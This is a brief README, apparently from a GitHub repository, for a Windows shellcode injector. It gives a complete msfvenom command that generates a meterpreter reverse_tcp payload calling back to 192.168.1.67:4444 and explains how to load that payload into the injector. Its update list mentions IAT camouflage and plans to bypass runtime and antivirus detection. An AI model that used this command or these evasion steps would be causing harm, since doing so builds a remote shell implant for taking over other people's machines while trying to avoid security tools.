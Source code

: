 # Shellcode Injector
### instructions
1. Gen your msfvenom shellcode :
`msfvenom -platform windows --arch x64 -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.67 LPORT=4444 -f c --var-name=wannabe`
2. Put your shellcode in the `wannabe` variable.

##UPDATES 
- Added IAT camouflage
- Added Force loading kernel32.dll
- More to come.. need to bypass runtime...

### Warning
This does not bypass AV as of now, we did not implement anything for it. If you want to contribute and add it, feel  free to do so.
This is simply to play with memory allocation and execution. 
